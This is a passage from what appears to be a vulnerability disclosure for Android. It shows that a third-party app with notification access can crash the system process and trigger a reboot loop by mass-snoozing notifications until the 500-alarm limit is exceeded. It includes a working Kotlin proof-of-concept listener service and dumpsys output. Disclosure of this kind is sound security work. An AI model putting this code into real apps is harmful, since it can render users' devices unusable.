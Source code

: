 
For any package, if the current number of alarms exceeds 500, an `UnsupportedOperationException` will be thrown and cause the process to crash, **even if it is a system process.**

In general, we do not have permission to set alarm for Android system processes. But let's take a look at another piece of code that can be implemented by any third-party application:

```kotlin
class TestCrashService : NotificationListenerService() {
    private val random = Random(System.currentTimeMillis())

    override fun onNotificationPosted(sbn: StatusBarNotification?) {
        /**
         * Snooze any notification here with a random duration (fixed duration also works).
         * The duration better be longer so snoozing can be maintained.
         */
        sbn?.let {
            val duration = TimeUnit.DAYS.toMillis(random.nextLong(30, 365))
            snoozeNotification(it.key, duration)
        }
    }
}
```

We can import `android.service.notification.NotificationListenerService` and implement a subclass. **A pending alarm is set by `AlarmManager` when `snoozeNotification` method is called.**

You can run `adb shell dumpsys alarm` to find the alarm like this:

```
RTC_WAKEUP #164: Alarm{6975754 type 0 origWhen 1684207980006 whenElapsed 30672085209 android}
tag=*walarm*:SnoozeHelper.EVALUATE
type=RTC_WAKEUP origWhen=2023-05-16 11:33:00.006 window=0 exactAllowReason=allow-listed repeatInterval=0 count=0 flags=0x9
policyWhenElapsed: requester=+354d23h27m52s23ms app_standby=-8m44s929ms device_idle=-- battery_saver=-- power_pending=--
whenElapsed=+354d23h27m52s23ms maxWhenElapsed=+354d23h27m52s23ms
operation=PendingIntent{a03f6fd: PendingIntentRecord{d9f6ff2 android broadcastIntent}}
```

If there are so many notifications being snoozing, an equivalent amount of pending alarms will be attached to the **system process** `android`. It's very dangerous because an exception is waiting for you before reaching the maximum limit.

**Finally, the system crashes and is likely to fall into a loop of reboots. That's where the vulnerability lies.**

#### Please briefly explain who can exploit the vulnerability, and what they gain when doing so

I have to say that this is a very serious system vulnerability. For any application that implements `NotificationListenerService`, as long as users **allow notification access**, it may cause Android system processes to crash, further causing the device to get stuck in a reboot loop and become unavailable.

We can find many apps designed to manage notifications on Play Store. They may use `snoozeNotification` method to delay or eliminate notifications. If notifications are so many and snoozing duration is not short, there will be a risk of causing Android system to crash once the number of pending alarms reaches the limit.
